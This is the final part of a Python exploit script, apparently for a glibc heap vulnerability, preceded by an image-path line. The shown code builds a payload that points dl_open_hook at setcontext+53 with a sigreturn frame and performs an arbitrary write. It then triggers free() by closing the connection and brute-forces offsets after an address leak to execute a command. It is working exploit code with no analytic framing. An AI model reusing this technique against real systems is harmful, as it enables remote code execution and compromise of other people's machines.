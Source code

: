```python
    payload += p64(setcontext_53)             # dl_open_hook + 0x28 = rax + 0x20, call [rax+0x20] = setcontext+53
    payload += bytes(sigframe)[0x28:]           # now rdi = dl_open_hook + 8, thus we cut the offset from rdi to this pos

    aaw(io, payload)
    # print('aaw completed, trigger free()...')
    io.close()                  # trigger free()


def main():
    leak_addr = bruteforce()
    # leak_addr = 0x7fa9bcc90000   # target
    print('leaked an address: %s' % hex(leak_addr))
    for offset in range(0, 0xffff000, 0x1000):
        do_exploit(leak_addr, offset, CMD)


if __name__ == '__main__':
    main()

```









